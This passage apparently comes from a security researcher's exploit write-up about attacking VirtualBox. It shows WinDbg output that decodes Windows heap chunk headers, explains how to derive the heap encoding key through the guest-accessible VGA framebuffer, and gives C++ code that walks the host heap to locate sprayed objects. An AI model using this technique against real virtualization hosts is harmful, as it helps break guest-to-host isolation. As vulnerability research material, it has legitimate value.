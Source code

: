 The output of `!heap -i` said that the header content is `0x381AE0DD 0x10B2BECD`, but after decoded it is `0x08010801 0x10B28201`. Let's confirm this

```
0:042> db 0000026859f1f010 L0x10
00000268`59f1f010  0c 00 02 02 2e 2e 00 00-dd e0 1a 38 cd be b2 10  ...........8....
0:042> dt _HEAP
ntdll!_HEAP
   +0x000 Segment          : _HEAP_SEGMENT
    ...
   +0x080 Encoding         : _HEAP_ENTRY // <-- The key to decode
    ...
0:042> dq 26855e40000+0x80 L2
00000268`55e40080  00000000`00000000 00003ccc`301be8dc
```

So the key is `0x00003ccc301be8dc`. `0x00003ccc301be8dc ^ 0x10b2becd381ae0dd = 0x10b2820108010801`, which is exactly what shown in `!heap -i` command.

So to parse a chunk header, we need to leak the `_HEAP->Encoding`. I can't not directly leak it but I have an idea to calculate it. `pbVgaFrameBufferR3` has the size of `0x80010` bytes (include the header), so the chunk right behind it (let's call this chunk `A`) must have `PreviousSize` equals to `0x8001`. Knowing this, I can calculate 2 bytes key to decode `PreviousSize`.

```
KeyToDecodePreviousSize = A->PreviousSize ^ 0x8001
```

Next, I find another chunk after chunk `A`, let's call this chunk `B`. `B` is likely to be a valid chunk if:

```
(B->PreviousSize ^ KeyToDecodePreviousSize) << 4 == Distance between A and B
```

`B->PreviousSize ^ KeyToDecodePreviousSize` is also the value of `A->Size ^ KeyToDecodeSize`, so:

```
KeyToDecodeSize = B->PreviousSize ^ KeyToDecodePreviousSize ^ A->Size
```

Now I am able to decode `Size` and `PreviousSize`. What about the `Flags`? I don't know a good way to decode it, so I just run VirtualBox multiple times and observe that most of the time chunk `A` is in used. So if any other chunk has the LSB bit of `Flags` equals to the LSB bit of `A->Flags`, then it is also in used and vice versa. With this informaton, I can walk the heap easily, the algorithm looks like this:

```cpp
uint32_t curOffset = 0x80000;
while (curOffset < 0x200000) { // 0x200000 is the maximum we can touch
    HEAP_ENTRY hE;
    readHeapEntry(curOffset, &hE);
    if (isInUsed(&hE))
        findSprayedObjects(curOffset, &hE);
    curOffset += ((hE.Size ^ KeyToDecodeSize) << 4); // 1 block is 16 bytes
}
```
